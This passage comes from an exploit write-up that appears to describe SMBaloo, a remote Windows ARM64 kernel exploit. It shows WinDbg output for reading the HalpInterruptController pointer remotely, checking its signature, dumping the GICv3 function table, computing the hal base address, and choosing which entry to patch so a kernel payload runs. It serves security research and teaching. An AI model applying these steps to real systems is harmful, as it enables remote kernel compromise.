 We can now remotely and consistently read `poi(hal!HalpInterruptController)` physical address! **Bingo!**

You can read the `ReadHalInterruptController()` function of the exploit for more details.

### Generic Interrupt Controller (GIC) Table 

Once we read `hal!HalpInterruptController` we can easily verify the structure with some simple checks such as the null fields or in our case with `SMBaloo` the constant value (probably a size) at `poi(hal!HalpInterruptController)+0x18` which is `0x545`.

```bash
0: kd> dq poi(hal!HalpInterruptController)+0x18 L1
HalpInterruptController_Sig = 0x00000545
```

It is then very easy to retrieve the hal base address from one of the function virtual address by substracting the function offsets.

```bash
0: kd> dps poi(hal!HalpInterruptController)
fffff7f3`c0007000  fffff800`dfbd7370 hal!HalpRegisteredInterruptControllers
fffff7f3`c0007008  fffff800`dfbd7370 hal!HalpRegisteredInterruptControllers
fffff7f3`c0007010  fffff7f3`c0007158
fffff7f3`c0007018  00000000`00000545
fffff7f3`c0007020  fffff800`df8c7640 hal!HalpGic3InitializeLocalUnit
fffff7f3`c0007028  fffff800`df8c7450 hal!HalpGic3InitializeIoUnit
fffff7f3`c0007030  fffff800`df89b2c0 hal!HalpGic3SetPriority
fffff7f3`c0007038  00000000`00000000
fffff7f3`c0007040  00000000`00000000
fffff7f3`c0007048  00000000`00000000
fffff7f3`c0007050  00000000`00000000
fffff7f3`c0007058  fffff800`df8c71a0 hal!HalpGic3AcceptAndGetSource
fffff7f3`c0007060  fffff800`df89b2e0 hal!HalpGic3WriteEndOfInterrupt
fffff7f3`c0007068  00000000`00000000
fffff7f3`c0007070  fffff800`df8c7ea0 hal!HalpGic3SetLineState
fffff7f3`c0007078  fffff800`df8c7d70 hal!HalpGic3RequestInterrupt
```

```bash
0: kd> !itoldyouso hal
hal.dll
    Timestamp: 4328224B
    SizeOfImage: 36F000
          pdb: hal.pdb
          pdb sig: 24BF0D45-4FA0-30FF-4791-CA91A5EAD872
          age: 1
0: kd> ? hal!HalpRegisteredInterruptControllers - hal
Evaluate expression: 3433328 = 00000000`00346370
```

More importantly, we need to decide which entry to patch to trigger our kernel payload. As you can see, instead of Advanced Programmable Interrupt Controller (APIC) - the ARM64 Operating System is using [Generic Interrupt Controller (GIC) version 3](http://bos.itdks.com/855dbb545f004e9da1c603f3bcc0a917.pdf).
